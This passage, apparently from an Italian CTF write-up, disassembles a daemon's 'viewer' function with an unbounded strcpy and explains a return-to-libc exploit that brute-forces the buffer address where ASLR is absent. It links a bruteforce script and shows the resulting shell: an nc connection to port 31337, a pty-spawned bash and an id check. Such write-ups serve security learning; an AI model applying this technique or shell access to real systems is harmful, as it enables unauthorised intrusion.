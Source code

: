 ```asm
 0804892d <viewer>:
 804892d:        55                           push   %ebp
 804892e:        89 e5                        mov    %esp,%ebp
 8048930:        81 ec 08 04 00 00            sub    $0x408,%esp
 8048936:        83 ec 08                     sub    $0x8,%esp
 8048939:        ff 75 08                     pushl  0x8(%ebp)
 804893c:        8d 85 f8 fb ff ff            lea    -0x408(%ebp),%eax
 8048942:        50                           push   %eax
 8048943:        e8 08 fc ff ff               call   8048550 <strcpy@plt>
 8048948:        83 c4 10                     add    $0x10,%esp
 804894b:        83 ec 08                     sub    $0x8,%esp
 804894e:        8d 85 f8 fb ff ff            lea    -0x408(%ebp),%eax
 8048954:        50                           push   %eax
 8048955:        68 d9 8a 04 08               push   $0x8048ad9
 804895a:        e8 91 fb ff ff               call   80484f0 <printf@plt>
 804895f:        83 c4 10                     add    $0x10,%esp
 8048962:        c9                           leave
 8048963:        c3                           ret
```

Ciò che salta subito all'occhio è l'utilizzo della funzione `strcpy`, notoriamente vulnerabile in quanto non effettua nessun controllo di lunghezza quando copia un buffer sorgente in uno di destinazione. Questa `strcpy` copia in un buffer grande 1032 bytes (0x408 - indirizzo 8048930) la stringa che passiamo al demone.

Analizzando il binario abbiamo notato che l'unica mitigation presente era `NX` quindi non potevamo eseguire nessuno shellcode custom passato direttamente come input. Rimaneva però possibile effettuare una `return2libc` per eseguire comandi arbitrari.

Per effettuare questo tipo di attacco, abbiamo bisogno dell'indirizzo di una funzione che vogliamo riutilizzare per eseguire comandi. Il terzo hint del CTF ci ha fornito l'indirizzo di `system` e tramite questo indirizzo più le informazioni svelate nel changelog abbiamo recuperato anche l'indirizzo di `exit`.

Purtroppo rimane un altro problema: il binario non ha controllo sui file descriptor usati dal nuovo processo che andremo a lanciare, e di conseguenza l'esecuzione di comandi sarà blind e non sarà possibile utilizzare interattivamente la shell.
L'ultima parte del payload dovrà contenere il comando da far eseguire a `system` e sarà un puntatore ad una stringa contenuta nel binario.

Abbiamo quindi due possibilità: andare a cercare in memoria gli indirizzi di ogni singola lettera componendo cosi il nostro comando, oppure, più semplicemente, cercare tramite un bruteforce il puntatore al buffer che inviamo tramite socket. Abbiamo optato per la seconda.

Tramite analisi dimanica su una macchina debian simile al target abbiamo notato che l'assenza di ASLR faceva si che il nostro buffer fosse presente nel range `0xbfffe000 - 0xbfffffff`, lasciando così 8191 possibili indirizzi da provare.
Abbiamo quindi realizzato uno script python che invia richieste al server fin quando non trova l'indirizzo corretto del nostro payload: [bruteforcer.py](https://raw.githubusercontent.com/jbzteam/CTF/master/HiB17_SpringEdition/bruteforce.py). Una volta terminato il bruteforce abbiamo notato che il nostro comando era stato eseguito, consentendoci l'accesso alla macchiana mediante la porta 31337:

```bash
www-data@www:/var/www/CTF/support$ nc 10.0.0.165 31337
nc 10.0.0.165 31337
Insert password for JBZ TEAM: ***********
python -c "import pty;pty.spawn('/bin/bash')"
sysop@debian:/tmp/...$ id
uid=1000(sysop) gid=1000(sysop) groups=1000(sysop),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```
